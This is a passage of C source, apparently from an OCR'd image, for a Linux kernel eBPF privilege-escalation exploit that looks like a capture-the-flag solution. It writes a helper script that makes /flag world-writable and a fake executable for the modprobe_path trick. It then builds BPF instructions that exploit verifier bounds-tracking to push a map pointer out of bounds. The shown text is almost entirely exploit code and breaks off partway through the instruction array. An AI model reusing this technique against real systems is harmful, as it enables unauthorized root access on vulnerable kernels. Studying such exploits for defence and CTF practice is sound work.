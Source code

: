 ```c
void gen_fake_elf(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /my_exp"); 
    system("chmod +x /my_exp");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /fake");
    system("chmod +x /fake");
}
void init(){
    setbuf(stdin,0);
    setbuf(stdout,0);
    gen_fake_elf();
}
void x64dump(char *buf,uint32_t num){         
    uint64_t *buf64 =  (uint64_t *)buf;       
    printf("[-x64dump-] start : \n");         
    for(int i=0;i<num;i++){                   
            if(i%2==0 && i!=0){                   
                printf("\n");                     
            }                                     
            printf("0x%016lx ",*(buf64+i));       
        }                                         
    printf("\n[-x64dump-] end ... \n");       
}                                             
void loglx(char *tag,uint64_t num){         
    printf("[lx] ");                        
    printf(" %-20s ",tag);                  
    printf(": %-#16lx\n",num);              
}                                           

static int bpf_prog_load(enum bpf_prog_type prog_type,         
        const struct bpf_insn *insns, int prog_len,  
        const char *license, int kern_version);      
static int bpf_create_map(enum bpf_map_type map_type, int key_size, int value_size,  
        int max_entries);                                                 
static int bpf_update_elem(int fd ,void *key, void *value,uint64_t flags);
static int bpf_lookup_elem(int fd,void *key, void *value);
static void writemsg(void);
static void __exit(char *err);

struct bpf_insn insns[]={
    //
    BPF_LD_MAP_FD(9,3),             //r9 = ctrl_map_fd
    BPF_MAP_GET(0,5),               //r5 = ctrl_map_fd[0], r0 = &ctrl_map
    BPF_ALU64_IMM(BPF_MOV,0,1),
    BPF_JMP32_IMM(BPF_JLE, 5, 0x7fffffff, 1),  //if r5 > 0:jmp pc+1
    BPF_EXIT_INSN(),				//r5->min_val = 1
    BPF_JMP_IMM(BPF_JGT, 5, 0, 1),  //if r5 > 0:jmp pc+1
    BPF_EXIT_INSN(),				//r5->min_val = 1
    
	BPF_LD_IMM64(6, 0x600000002),	//r6 = 0x600000002
	BPF_JMP_REG(BPF_JLT, 5, 6, 1),	//if r5 < r:jmp pc+1
	BPF_EXIT_INSN(),				//r5->max_val = 0x100000001

	BPF_ALU64_IMM(BPF_OR, 5, 0),	//r5 |= 0
	BPF_MOV32_REG(6, 5),			//r6_32 = r5_32
	BPF_ALU64_IMM(BPF_RSH, 6, 1),	//r6 >>= 1
    BPF_ALU64_IMM(BPF_MUL,6,0x110), //r6 *= 0x110

    BPF_LD_MAP_FD(9,4),      //r9 = exp_map_fd
    BPF_MAP_GET_ADDR(0,7),          //r7 = &exp_map
    BPF_ALU64_IMM(BPF_MOV,0,1),
    BPF_ALU64_REG(BPF_SUB,7,6),     //r7 -= r6

    //
```